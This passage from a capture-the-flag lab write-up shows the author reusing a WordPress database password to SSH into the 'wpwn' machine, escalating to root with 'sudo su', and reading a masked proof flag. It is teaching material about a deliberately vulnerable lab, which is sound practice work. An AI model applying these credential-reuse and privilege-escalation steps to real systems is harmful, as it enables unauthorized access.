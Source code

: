 So we identified that the user `takis` exists and that the `wordpress` installation uses a complicated database password (`R3&]vzhHmMn9,:-5`).  
It is worth a try to ssh into the machine with ```takis:R3&]vzhHmMn9,:-5```.

```bash
ssh takis@192.168.55.123
takis@wpwn:~$
```

It worked! Now we check if `takis` is able switch to the user `root`

```
takis@wpwn:~$ sudo su
root@wpwn:/home/takis#
```

We got root access. Get the second flag now :-)

```
root@wpwn:/home/takis# cd /root
root@wpwn:~# ls
proof.txt  root.txt
root@wpwn:~# cat proof.txt 
f****************************1
```
-> `f****************************1`  
  
Pwned! <@:-)
